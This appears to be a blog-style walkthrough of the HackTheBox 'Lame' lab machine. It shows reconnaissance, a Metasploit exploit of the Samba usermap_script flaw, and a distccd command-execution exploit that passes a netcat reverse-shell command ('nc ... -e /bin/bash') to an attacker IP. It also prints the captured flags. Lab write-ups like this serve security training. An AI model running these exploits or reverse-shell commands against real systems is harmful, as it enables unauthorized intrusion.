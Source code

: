 ```yaml
---
title: Lame - HackTheBox Walkthrough
date: 2021-08-31 10:30:00 +/-TTTT
categories: [Penetration Testing, HackTheBox]
tags: [hackthebox, penetration-testing, linux, vulnerability, exploit, writeup]     # TAG names should always be lowercase
---
```


# Lame - HackTheBox Walkthrough

A comprehensive walkthrough of the Lame machine from HackTheBox, focusing on vulnerability identification and exploitation techniques.

## Table of Contents
{:.no_toc}

1. TOC
{:toc}

## Machine Information

- **Name**: Lame
- **Difficulty**: Easy
- **Operating System**: Linux
- **IP Address**: 10.129.92.217
- **Release Date**: February 7, 2021

## Initial Reconnaissance

### Nmap Scan

```bash
# Create directory for scan results
mkdir nmap

# Run comprehensive Nmap scan with service detection
nmap -sC -p- -sV -oS nmap/basic.out 10.129.92.217
```

### Scan Results

The initial scan revealed several open ports and services:

1. **Port 21**: FTP (vsftpd 2.3.4)
2. **Port 22**: SSH (OpenSSH 4.7p1)
3. **Port 139**: NetBIOS (Samba 3.x-4.x)
4. **Port 445**: Samba (smbd 3.0.20)
5. **Port 3632**: distccd

## Vulnerability Analysis

### Samba Vulnerability

The Samba service (port 445) running version 3.0.20 is known to be vulnerable to the username map script vulnerability. Let's verify this:

```bash
# Search for Samba exploits
searchsploit smb 3.0.20
```

### Exploitation

Using Metasploit to exploit the Samba vulnerability:

```bash
# Start Metasploit in quiet mode
msfconsole -q

# Search for the username map script exploit
search username map script

# Use the exploit module
use exploit/multi/samba/usermap_script

# Configure the exploit parameters
set RHOSTS 10.129.92.217
set RPORT 445
set LHOST 10.10.14.5

# Execute the exploit
run
```

## Post-Exploitation

### Shell Upgrade

After gaining initial access, upgrade to a more stable shell:

```bash
# Check Python version and spawn a better shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

### Flag Collection

```bash
# User flag
cat /home/makis/user.txt
# 44b03ec4176f68146be931dd45a04c9c

# Root flag
cat /root/root.txt
# 3aa08600fd8c0bd9eb6374c3e5a6de23
```

## Alternative Exploitation Path

### Distccd Vulnerability

The distccd service (port 3632) is also vulnerable to command execution:

```bash
# Run vulnerability scan on distccd port
nmap -p 3632 --script vuln -sV -oS nmap/nmap.vul.out 10.129.92.217
```

### Exploitation without Metasploit

```bash
# Set up a listener on the attacker machine
nc -nvlp 1122

# Execute the exploit using Nmap script
nmap -Pn -n -p3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc 10.10.14.5 1122 -e /bin/bash'" 10.129.92.217
```

## System Information

```bash
# Check system details
uname -a
# Linux 2.6.24-16 server
```

## Technical Analysis

### Samba Vulnerability (CVE-2007-2447)
- **Vulnerability Type**: Command Injection
- **Affected Version**: Samba 3.0.20
- **Exploit Mechanism**: Username map script
- **Impact**: Remote code execution
- **Mitigation**: Update to latest version

### Distccd Vulnerability (CVE-2004-2687)
- **Vulnerability Type**: Command Execution
- **Affected Version**: distccd 3.1 and earlier
- **Exploit Mechanism**: Command injection
- **Impact**: Remote code execution
- **Mitigation**: Update to latest version

## Lessons Learned

1. **Reconnaissance**
   - Always perform comprehensive port scanning
   - Document all discovered services and versions
   - Verify service versions against known vulnerabilities

2. **Vulnerability Assessment**
   - Check for known vulnerabilities in service versions
   - Consider multiple exploitation paths
   - Document all potential attack vectors

3. **Exploitation**
   - Test exploits in a controlled environment
   - Have multiple exploitation methods ready
   - Document successful exploitation steps

4. **Post-Exploitation**
   - Upgrade shell for better interaction
   - Document system information
   - Collect all required flags
   - Clean up after exploitation

## References

- [HackTheBox Lame](https://www.hackthebox.com/home/machines/profile/1)
- [Samba Usermap Script Exploit](https://www.exploit-db.com/exploits/16320)
- [Distccd Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2004-2687)
- [Samba Security Advisory](https://www.samba.org/samba/security/CVE-2007-2447.html)
- [Distcc Security Advisory](https://distcc.github.io/security.html)

## License

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

